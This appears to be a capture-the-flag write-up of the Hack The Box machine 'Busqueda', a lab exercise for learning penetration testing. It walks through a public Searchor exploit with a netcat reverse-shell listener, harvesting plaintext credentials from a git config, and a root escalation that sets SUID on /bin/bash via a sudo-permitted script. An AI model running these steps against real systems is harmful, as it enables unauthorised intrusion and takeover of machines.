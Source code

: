```yaml
---
title: "HTB | BUSQUEDA"
date: 2024-07-11 00:00:00 +0800
categories: [HTB]
tags: [Linux]
author: Christian                     
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Publicly Available Exploit leads to RCE

**Vulnerability Explanation:** The web application is running, 'Searchor 2.4.0', which has a publicly available exploit on github. Using the exploit leads to RCE.

**Vulnerability Fix:** Update the web application to the latest patch or remove it if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** The initial scan revealed that TCP port 80 is open. After adding 'searcher.htb' to /etc/hosts, Christian discovered a vulnerable version of 'Searchor' running. A public exploit was found off of github and used to gain inital access.

**Port Scan Results**

**TCP:** 22, 80

**UDP:** NA

Use autorecon to scan the target for open ports. Autorecon is an automated tool for basic enumeration well suited for CTFs where generating a lot of noise is not an issue. For this case, we will use it primarily for basic service enumeration.

TCP port 22, 80 was discovered.

* [https://github.com/Tib3rius/AutoRecon](https://github.com/Tib3rius/AutoRecon)

```shell
sudo autorecon 10.10.11.208
```
![img-description](/assets/img/HTB/BUSQUEDA/1.png)

Add 'search.htb' to the /etc/hosts file on your local machine so that we can access the site on port 80.

![img-description](/assets/img/HTB/BUSQUEDA/2.png)

Upon inspecting the web application. It reveals that it is using something called 'Searchor 2.4.0'.

![img-description](/assets/img/HTB/BUSQUEDA/3.png)

A publicly availble exploit can be found on github. .

* [https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

![img-description](/assets/img/HTB/BUSQUEDA/4.png)

![img-description](/assets/img/HTB/BUSQUEDA/5.png)

Download it to our host machine and run it along side a netcat listener to obtain a reverse shell

```shell
chmod +x exploit.sh
```
```shell
./exploit.sh searcher.htb 10.10.16.2
```
```shell
nc -nlvp 9001
```
![img-description](/assets/img/HTB/BUSQUEDA/6.png)

![img-description](/assets/img/HTB/BUSQUEDA/7.png)

We have successfully obtained initial access to the target machine as user 'svc'.

## Privilege Escalation - Exposed Credentials in Git Config File + Sudo Privileges

**Vulnerability Explanation:** An exposed set of credentials was found in the git configuration file. This password in this file is also used as the password to the 'svc' user. 'svc' has sudo privleges to the command vulnerable command which can be exploited to gain code execution as the root user.

**Vulnerability Fix:** 'cody' and 'svc' have their credentials compromised. Change it as soon as possible. Remove access to the git config file unless needed and remove the password from the git config file. Remove sudo privileges from 'svc' if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Christian found plain text credentials in the git configuration file. The password of the credentials is also the password to the user account 'svc'. With this, he was able to view 'svc's' sudo privileges of "/usr/bin/python3 /opt/scripts/system-checkup.py *". He created a script that would set permissions for /bin/bash and had it executed via the available sudo command. Gained a root shell by calling /bin/bash with the flag -p.

Move into the '.git' directory and inspect the 'config' file. Credentials for user 'cody' are found within the file.

```shell
cd .git
```
```shell
cat config
```

![img-description](/assets/img/HTB/BUSQUEDA/8.png)

After a bit of bruteforcing with the newly found password, user 'svc' uses the same password. We can access svc's sudo privileges with the password.

```shell
sudo -l
```

![img-description](/assets/img/HTB/BUSQUEDA/9.png)

'svc' has sudo privs to a service called system-checkup.py along with a wildcard. We can use this to creat a malicious shell script that that will be executed with our sudo privs.

Adding the malicous script and giving it the proper permissions allows us to run the command and elevate our privs to 'root'.

```shell
echo -e '#! /bin/bash\nchmod u+s /bin/bash' > full-checkup.sh && chmod +x full-checkup.sh
```
```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
```shell
/bin/bash -p
```

![img-description](/assets/img/HTB/BUSQUEDA/10.png)

![img-description](/assets/img/HTB/BUSQUEDA/11.png)

## Post Exploitation

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.
